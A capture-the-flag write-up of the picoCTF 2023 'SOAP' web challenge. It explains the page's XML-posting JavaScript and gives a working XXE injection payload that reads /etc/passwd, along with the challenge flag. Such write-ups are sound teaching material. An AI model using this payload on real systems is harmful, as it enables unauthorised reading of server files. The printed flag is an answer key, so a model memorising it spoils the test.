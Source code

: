 # SOAP

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: Geoffrey Njogu

Description

The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

[Web Portal](http://saturn.picoctf.net:54504/)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230315202245.png)

**View source page:**
```html
<form class="detailForm" action="/data" method="POST">
    <input required type="hidden" name="ID" value="1">
<button type="submit" class="btn btn-sm
  btn-outline-secondary">Details</button>
</form>
[...]
<form class="detailForm" action="/data" method="POST">
    <input required type="hidden" name="ID" value="2">
<button type="submit" class="btn btn-sm
  btn-outline-secondary">Details</button>
</form>
[...]
<form class="detailForm" action="/data" method="POST">
    <input required type="hidden" name="ID" value="3">
  <button type="submit" class="btn btn-sm
  btn-outline-secondary">Details</button>
</form>
[...]
<script src="/static/js/xmlDetailsCheckPayload.js"></script>
<script src="/static/js/detailsCheck.js"></script>
[...]
```

In here, we see there are 3 HTML forms. When the "Details" button is clicked, it'll send a POST request to `/data` with parameter `ID`.

**It also imported 2 JavaScript files.**

**`/static/js/xmlDetailsCheckPayload.js`:**
```js
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```

**In the above, the `payload(data)` function is just constructing an XML data structure:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
    <key>value</key>
</data>
```

**`/static/js/detailsCheck.js`:**
```js
document.querySelectorAll('.detailForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkDetails(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkDetails(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

What this does is sending a POST request to `/data` endpoint, with function `payload(data)`'s output body.

**Now, let's click on those "Details" buttons!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230315202914.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230315202928.png)

As you can see, we're sending XML data.

Armed with above information, we can move onto the exploitation session.

## Exploitation

In this challenge's title, it's **SOAP**.

> SOAP XML is a messaging protocol specification for exchanging structured information in the implementation of web services in computer networks.

That being said, we can try to exploit ***XXE (XML External Entity) injection***!

**Now, we can send the POST `/data` request to Burp Suite's Repeater, and change the `</ID>` key to anything:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230315203202.png)

As you can see, ***our invalid ID is reflected to the response***!!

**With that said, we can try to retrieve information by injecting arbitrary XML data!**

**Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
    <ID>&xxe;</ID>
</data>
```

**What this payload does is we defined:**

- The root element of the document is `root` (`!DOCTYPE root`)
- Then, inside that root element, **we defined an external entity (variable) called `xxe`, which is using keyword `SYSTEM` to fetch file `/etc/passwd`**
- Finally, we want to **use the `xxe` entity in `<ID>` tag**, so we can see the output of `/etc/passwd`. To do so, we need to use `&entity_name;`

**Let’s send our XXE payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230315203446.png)

Nice! We successfully exploited an XXE vulnerability, and retrieved `/etc/passwd` content!!

> Note: If you want to learn more about XXE, you could read my PortSwigger Labs [writeups](https://siunam321.github.io/ctf/portswigger-labs/XXE-Injection/xxe-1/)!

- **Flag: `picoCTF{XML_3xtern@l_3nt1t1ty_6d333638}`**

## Conclusion

What we've learned:

1. XXE Injection